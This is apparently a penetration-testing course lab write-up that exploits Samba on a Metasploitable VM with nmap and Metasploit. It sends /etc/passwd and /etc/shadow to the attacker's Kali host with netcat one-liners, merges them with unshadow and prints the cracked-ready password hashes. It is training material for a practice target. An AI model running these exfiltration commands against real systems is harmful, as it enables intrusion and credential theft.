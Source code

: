 # Lab 7 - Exploiting Samba and Exfiltrating Data 

Target IP: 172.16.0.22
Target: Metasploitable

1. Run nmap against the metasploitable machine using the following command.

	`sudo nmap -sV <metasploitable IP> -vvv` (make a note of open ports and services).

	make a note of what port Samba is running.

	```
	$ sudo nmap -sV 172.16.0.22 -vvv | grep Samba

	139/tcp  open  netbios-ssn syn-ack ttl 64 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	445/tcp  open  netbios-ssn syn-ack ttl 64 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	```

2. On your Kali machine launch the metasploit framework.

3. Search for Samba exploits based on version identified in nmap results.

	`msf6> search type:exploit name:samba`

4. Select the exploit matching the version (note that the search option may not provide a lot of information so you will likely have to try multiple exploits to make it work).

5. Select the exploit by using command below.

	`use exploit/xxxxx`

6. Set required options by using set command (hint RHOSTS, and possibly payload).

7. Execute the exploit (this should open a session on the exploited host).

8. Open another Kali terminal window.

9. Launch netcat in a listen mode and redirect output to a file as shown.

	`nc -l -p 4567 > passwd.txt`

10. From the exploited system terminal (session opened from metasploit exploit you executed) type the following commands to extract the `/etc/passwd` file.

	`cat /etc/passwd | nc <kali ip> 4567` (there will be no progress bar and there should be no error messages).

	go back to the listening netcat window and terminate it using CTRL+C. Cat the contents of the `passwd.txt` file using command below.

	`cat passwd.txt` 

11. Start another `netcat` command but redirect the contents to `shadow.txt` instead of `passwd.txt` (use the same command as in Step 9 just change `passwd.txt` to `shadow.txt`).

12. From the exploited system terminal (session opened from metasploit exploit you executed) type the following commands to extract the `/etc/shadow file`.

	`cat /etc/shadow| nc <kali ip> 4567` (there will be no progress bar and there should be no error messages).

	go back to the listening netcat window and terminate it using CTRL+C. Cat the contents of the `passwd.txt` file using command below.

	`cat shadow.txt`

13. On your kali box combine the contents of `passwd.txt` and `shadow.txt` using the command below.

	`unshadow passwd.txt shadow.txt > user_logins.txt` 

14. What is the content of the combined `user_logins.txt` file (include screenshot).

```
root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:0:0:root:/root:/bin/bash
daemon:*:1:1:daemon:/usr/sbin:/bin/sh
bin:*:2:2:bin:/bin:/bin/sh
sys:$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0:3:3:sys:/dev:/bin/sh
sync:*:4:65534:sync:/bin:/bin/sync
games:*:5:60:games:/usr/games:/bin/sh
man:*:6:12:man:/var/cache/man:/bin/sh
lp:*:7:7:lp:/var/spool/lpd:/bin/sh
mail:*:8:8:mail:/var/mail:/bin/sh
news:*:9:9:news:/var/spool/news:/bin/sh
uucp:*:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:*:13:13:proxy:/bin:/bin/sh
www-data:*:33:33:www-data:/var/www:/bin/sh
backup:*:34:34:backup:/var/backups:/bin/sh
list:*:38:38:Mailing List Manager:/var/list:/bin/sh
irc:*:39:39:ircd:/var/run/ircd:/bin/sh
gnats:*:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:*:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:!:100:101::/var/lib/libuuid:/bin/sh
dhcp:*:101:102::/nonexistent:/bin/false
syslog:*:102:103::/home/syslog:/bin/false
klog:$1$f2ZVMS4K$R9XkI.CmLdHhdUE3X9jqP0:103:104::/home/klog:/bin/false
sshd:*:104:65534::/var/run/sshd:/usr/sbin/nologin
msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
bind:*:105:113::/var/cache/bind:/bin/false
postfix:*:106:115::/var/spool/postfix:/bin/false
ftp:*:107:65534::/home/ftp:/bin/false
postgres:$1$Rw35ik.x$MgQgZUuO5pAoUvfJhfcYe/:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
mysql:!:109:118:MySQL Server,,,:/var/lib/mysql:/bin/false
tomcat55:*:110:65534::/usr/share/tomcat5.5:/bin/false
distccd:*:111:65534::/:/bin/false
user:$1$HESu9xrH$k.o3G93DGoXIiQKkPmUgZ0:1001:1001:just a user,111,,:/home/user:/bin/bash
service:$1$kR3ue7JZ$7GxELDupr5Ohp6cjZ3Bu//:1002:1002:,,,:/home/service:/bin/bash
telnetd:*:112:120::/nonexistent:/bin/false
proftpd:!:113:65534::/var/run/proftpd:/bin/false
statd:*:114:65534::/var/lib/nfs:/bin/false`
```
